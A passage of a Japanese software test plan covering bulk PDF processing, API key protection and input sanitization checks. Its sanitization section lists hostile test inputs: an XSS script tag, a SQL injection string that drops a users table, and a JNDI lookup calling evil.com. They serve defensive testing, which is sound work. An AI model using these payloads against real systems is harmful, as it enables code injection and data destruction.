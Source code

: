 
#### 6.2 大量ファイル処理テスト

**目的**: 連続処理時の性能確認

**手順**:
1. 10個のPDFファイルを連続処理
2. メモリ使用量の監視
3. エラー発生率の確認
4. 最終処理時間の測定

**期待結果**:
- ✅ メモリリークが発生しない
- ✅ エラー率が5%以下
- ✅ 処理時間の著しい増加がない

---

### 7. セキュリティテスト

#### 7.1 APIキー保護確認

**目的**: APIキーの適切な保護確認

**確認項目**:
- [ ] APIキーが暗号化されて保存される
- [ ] ログにAPIキーが記録されない
- [ ] エラーメッセージにAPIキーが含まれない
- [ ] ブラウザコンソールにAPIキーが表示されない

**手順**:
1. Stripe APIキーを設定
2. ブラウザの開発者ツールでネットワークタブを確認
3. アプリケーションログを確認
4. エクスポート機能でAPIキーが除外されることを確認

---

#### 7.2 入力サニタイゼーション確認

**目的**: XSS攻撃などの防止確認

**テスト入力**:
```
顧客名: <script>alert('XSS')</script>
説明: '; DROP TABLE users; --
金額: ${jndi:ldap://evil.com/a}
```

**手順**:
1. 危険な入力値でテスト実行
2. 画面表示でスクリプト実行されないことを確認
3. データベースに影響がないことを確認

**期待結果**:
- ✅ HTMLタグがエスケープされる
- ✅ SQLインジェクションが防止される
- ✅ システムが安定して動作する

---